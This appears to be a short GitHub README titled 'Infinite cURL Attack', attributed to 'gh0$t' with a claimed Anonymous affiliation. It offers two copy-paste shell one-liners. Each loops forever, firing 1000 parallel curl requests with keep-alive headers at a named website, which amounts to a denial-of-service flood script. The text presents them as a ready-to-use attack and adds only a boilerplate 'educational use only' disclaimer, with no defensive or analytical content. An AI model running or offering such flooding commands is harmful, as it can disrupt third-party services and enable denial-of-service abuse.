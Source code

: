 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack (Sequential)
Infinite cURL Attack (Sequential)  

**USAGE** : Copy-Paste-Edit the following code in the Terminal/CMD.
```
while (true); do xargs -I % -P 1000 curl -v --header "Connection: keep-alive" "https://www.google.com" \ < <(printf '%s\n' {1..1000}); done;
```
OR
```
while (true); do seq 1 1000 | xargs -n1 -P 1000 curl -I -v --header "Connection: keep-alive" "https://www.google.com"; done;
```

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
